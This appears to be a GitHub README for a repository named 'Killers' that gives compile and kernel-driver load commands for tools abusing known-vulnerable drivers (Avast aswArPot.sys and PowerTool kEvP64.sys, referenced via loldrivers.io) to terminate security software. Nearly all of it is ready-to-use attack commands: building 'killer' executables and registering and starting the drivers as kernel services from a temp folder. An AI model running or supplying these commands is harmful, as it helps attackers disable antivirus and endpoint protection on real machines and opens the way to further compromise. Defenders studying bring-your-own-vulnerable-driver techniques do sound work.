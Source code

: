 # Killers

<p align="center">
  <img src="https://github.com/xalicex/Killers/blob/main/killers.jpg"  width=40% height=40% >
</p>

## Avast

https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

```
x86_64-w64-mingw32-gcc -o avast_killer.exe avast_killer.c 
sc.exe create aswArPot.sys binPath= C:\windows\temp\aswArPot.bin type= kernel && sc.exe start aswArPot.sys
```

## PowerTool 

https://www.loldrivers.io/drivers/fe2f68e1-e459-4802-9a9a-23bb3c2fd331

```
x86_64-w64-mingw32-gcc -o PowerTool_killer.exe PowerTool_killer.c 
sc.exe create kEvP64.sys binPath= C:\windows\temp\kEvP64.bin type= kernel && sc.exe start kEvP64.sys
```

